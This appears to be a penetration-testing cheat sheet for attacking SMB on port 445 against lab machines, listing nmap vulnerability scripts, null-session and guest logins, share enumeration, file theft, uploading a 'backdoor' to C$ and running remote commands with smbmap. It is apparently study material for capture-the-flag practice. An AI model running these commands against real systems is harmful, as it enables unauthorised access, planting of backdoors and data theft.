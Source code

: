 ```yaml
---
layout: default
title: 445 | SMB
nav_order: 4
---
```


# 445 | SMB

---

## Nmap Vuln Scan

```bash
nmap --script smb-vuln* -p 445 10.10.10.161
```

## Smbclient

### Enumerate shares

```bash
# List shares (-L) and check for null session (-N)
smbclient -L 10.10.2.7 -N

# With username and password
smbclient -L 10.10.2.7 -U jane
```

### Connect to share

```bash
# Check for null session with -N
smbclient //10.10.10.161/share

# With username and password
smbclient //10.10.2.7/jane -U jane
```

## SMBMap

### Enumerate shares

```bash
smbmap -H 10.10.10.161

# enumerate shares and list permissions with random/fake username
smbmap -H 10.10.10.161 -u asdfasdfasdf

# enumerate contents of specific share (ex. Replication)
smbmap -R Replication -H 10.10.10.161
```

### Authenticate to share

If we know there is SMBv1 enabled we can try authenticating with the “guest” user and a null password.

```bash
smbmap -u guest -p "" -d . -H 10.10.227.220
```

If we have discovered credentials we can attempt authentication.

```bash
smbmap -u administrator -p smbserver_771 -d . -H 10.10.227.220
```

### Connect to share

```bash
smbmap -H 10.10.2.7 -u admin -p password1

smbmap -d active.htb -u svc_tags -p password -H 10.10.10.161 -R users
```

### Connect to drive

```bash
smbmap -u administrator -p smbserver_771 -H 10.10.227.220 -r 'C$'
```

### Upload file to drive

```bash
smbmap -u administrator -p smbserver_771 -H 10.10.227.220 --upload '/root/backdoor'/
'C$\backdoor'
```

### Download file from share

```bash
smbmap -R Replication -H 10.10.10.161 -A groups.xml
```

### Download file from drive

```bash
smbmap -u administrator -p smbserver_771 -H 10.10.227.220 --download 'C$\flag.txt'
```

### Run commands remotely

Run a command using the '-x' flag

```bash
smbmap -u administrator -p smbserver_771 -d . -H 10.10.227.220 -x 'ipconfig'
```

## Enum4Linux

```bash

enum4linux -a 10.10.10.161

# Enumerate operating system
enum4linux -O 10.10.2.7

# Enumerate users
enum4linux -U 10.10.2.7

# Enumerate groups
enum4linux -G 10.10.2.7
```

## Mount SMB Share

```bash
# create directory
sudo mkdir /mnt/smb

# mount smb share
sudo mount -t cifs //10.10.10.161/Backups /mnt/smb

# mount with user creds
sudo mount -t cifs -o 'username=l.frost,password=welcom2019' //10.10.10.161/Users /mnt/l.frost/
```

## SMBget - Download Share

```bash
smbget -R smb://10.10.10.161/share
```

## Manual Null Session Testing (Windows)

```bash
net use \\TARGET\IPC$ "" /u:""
```
